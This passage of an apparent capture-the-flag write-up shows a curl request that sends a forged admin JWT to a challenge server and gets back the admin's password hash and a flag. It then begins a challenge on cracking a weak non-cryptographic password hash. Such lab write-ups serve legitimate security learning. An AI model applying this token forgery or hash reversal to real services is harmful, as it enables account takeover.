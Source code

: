 ![JWT debugger with admin token](res/jwt_debugger_admin.png)

Sending this to the server actually reveals our first flag in the response:
```shell
$ curl --header "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7ImlkIjo1LCJ1c2VybmFtZSI6ImFkbWluIiwiZW1haWwiOiJlbWFpbCIsInBhc3N3b3JkIjoiOTAxOTI0NTY1In0sImlhdCI6MTYyNTU5NTk0MH0.LggIr5vWrCmG1xuuHkDjyKsP_G9eBo-4epLryMwx9oU" https://dfcc0832c5e1cbc15c79387ec0686916.challenge.hackazon.org/user/capsule    
{"status":200,"data":[{"id":4,"username":"admin","email":"admin@spacerace.com","password":"-432570933"}],"flag":"CTF{break1ng_dem_jwtz}"}
```

### [100 points] Hashing

> Skylark is making use of super safe non-cryptographic hashing algorithms. Can you log in as the
> admin?

With our last request we did not only get the first flag but also the password hash for the user
`admin`, which is `-432570933`. As we do not know the password that resulted in this hash, we
cannot figure out what algorithm has been used here. We do, however, know password and hash for our
own user that we created at the start of our journey. Its password hash is `901924565` for the
very secure password `password`.
